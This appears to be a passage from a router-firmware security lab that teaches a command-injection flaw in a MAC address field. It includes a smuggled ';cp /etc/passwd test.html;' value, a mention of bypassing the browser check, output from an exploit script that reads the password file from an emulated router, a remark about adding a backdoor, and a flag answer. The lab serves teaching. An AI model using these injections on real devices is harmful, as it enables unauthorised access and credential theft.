 ```bash
wr_mfg_data -m f8ffc201fae5 -c 1
```

You will notice that there is no validation of the input to this command by the code. It just checks that the first 12 characters of the MAC address are alphanumeric. This means we can add data to the end of a valid MAC address and it will accept it. So if  we add a second command to the address, it will be executed as well. To do that, we use the command separator ; as follows:

```bash
wr_mfg_data -m f8ffc201fae5;cp /etc/passwd test.html; -c 1
```

To achieve this we would put "f8ffc201fae5;cp /etc/passwd test.html;" into the text box for the MAC address. The second command copies the password file to an HTML file test.html that we can then access from the website.

For this to work, we need to bypass a JavaScript validation check in the browser of the MAC address but that is trivial to do.&#x20;

### Testing the Vulnerability

Short of going out and buying a wireless router to test this on, we can run the firmware in an emulator. There is an open source toolset that allows you to do that called Firmadyne. It is beyond the scope of this lab to set that up and get it running however, there is a version that I have set up on a Cloud VM that you can access with an exploit script. To run this, you can type:

```bash
root@c3e1d7ac5055:/opt/samples/WNAP320# ./exploit.py /etc/passwd
root:x:0:0:root:/root:/bin/sh
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:100:sync:/bin:/bin/sync
mail:x:8:8:mail:/var/spool/mail:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
operator:x:37:37:Operator:/var:/bin/sh
haldaemon:x:68:68:hald:/:/bin/sh
dbus:x:81:81:dbus:/var/run/dbus:/bin/sh
nobody:x:99:99:nobody:/home:/bin/sh
sshd:x:103:99:Operator:/var:/bin/sh
admin:x:0:0:Default non-root user:/home/cli/menu:/usr/sbin/cli
```

If you are interested, you can look at the code in the Python script exploit.py. It takes one argument, the file on the router you want to look at. Of course, the script could be changed to insert a backdoor into the router and then gain access to the network that the router is connected to.&#x20;

## Question 1. Exploit to find the flag

**Flag: Run exploit.py and pass the argument flag.txt**

## Searching for Hard Coded Credentials
